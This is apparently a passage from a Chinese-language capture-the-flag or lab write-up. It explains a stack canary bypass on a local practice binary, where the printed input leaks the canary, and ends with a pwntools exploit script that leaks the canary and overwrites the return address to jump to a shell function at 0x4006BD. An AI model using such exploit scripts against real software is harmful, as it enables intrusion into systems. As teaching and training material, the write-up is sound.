 ![image-20230426143401920](images/image-20230426143401920.png)

但程序在 vuln 函数返回前会将输入的字符串打印，这会泄露栈上的 Canary，从而绕过检测。

可以将字符串长度控制到刚好连接 Canary，就可以使 Canary 和字符串一起被 puts 函数打印。由于 Canary 最低字节为 0x00，为了防止被 0 截断，需要多发送一个字符来覆盖 0x00。

首先找到 shell 命令的地址 0x4006BD：

![image-20230426155951867](images/image-20230426155951867.png)

编写攻击脚本：

```python
#!/usr/bin/python3
from pwn import *
p = process("./stack2")
p.recv()
p.sendline(b"a"*24)
p.recvuntil(b"a"*24+b'\n')	# 接收到指定字符串为止
canary=b"\x00"+p.recv(7)	# 接收 7 个字符
print(canary)				# 泄露 canary
p.sendline(b"a"*24+canary +p64(0)+p64(0x4006BD))
p.interactive()
```
